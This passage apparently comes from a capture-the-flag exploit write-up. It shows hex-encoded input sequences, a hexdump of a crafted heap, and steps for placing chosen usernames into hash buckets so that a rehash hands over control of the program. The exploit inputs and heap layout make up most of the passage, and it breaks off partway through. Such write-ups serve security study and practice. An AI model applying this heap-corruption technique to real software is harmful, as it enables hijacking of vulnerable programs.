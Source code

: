6e6577200f20303b
6e6577201f20303b
6e6577202f20303b
6e6577203f20303b
6e6577204f20303b

6e6577200520303b
6e6577201520303b


```


The filled (but not overflowed) modified heap looks like:

```
5350:   2e56 8e56 ee56 4e57 ae57 0e58 6e58 ce58   .V.V.VNW.W.XnX.X
5360:   2e59 3c53 8853 4100 0500 0500 0000 0000   .Y<S.SA.........
5370:   0000 0000 0000 0000 0000 0000 0000 0200   ................
5380:   0000 0000 0000 0000 6253 e853 b500 1000   ........bS.S....
5390:   0000 0000 0000 0000 0000 0000 0000 0000   ................
53a0:   3000 0000 0000 0000 0000 0000 0000 0000   0...............
53b0:   0000 4000 0000 0000 0000 0000 0000 0000   ..@.............
53c0:   0000 0000 5000 0000 0000 0000 0000 0000   ....P...........
53d0:   0000 0000 0000 6000 0000 0000 0000 0000   ......`.........
53e0:   0000 0000 0000 0000 8853 4854 b500 0f00   .........SHT....
53f0:   0000 0000 0000 0000 0000 0000 0000 0000   ................
5400:   1f00 0000 0000 0000 0000 0000 0000 0000   ................
5410:   0000 2f00 0000 0000 0000 0000 0000 0000   ../.............
5420:   0000 0000 3f00 0000 0000 0000 0000 0000   ....?...........
5430:   0000 0000 0000 4f00 0000 0000 0000 0000   ......O.........
5440:   0000 0000 0000 0000 e853 a854 b500 0000   .........S.T....
5450:   *
54a0:   0000 0000 0000 0000 4854 0855 b500 0000   ........HT.U....
54b0:   *
5500:   0000 0000 0000 0000 a854 6855 b500 0000   .........ThU....
5510:   *
```

So we want to write to bucket 0 the username 8853a854b50e and then to
bucket 1 the username 303e9e4cb507 (now the hash has to adjust mod 16).

Following this, we need enough new entries (that don't mess anything
up) to trigger another rehash which will finally give us control.

```
# fill bucket 0
6e6577201020303b
6e6577203020303b
6e6577204020303b
6e6577205020303b
6e6577206020303b
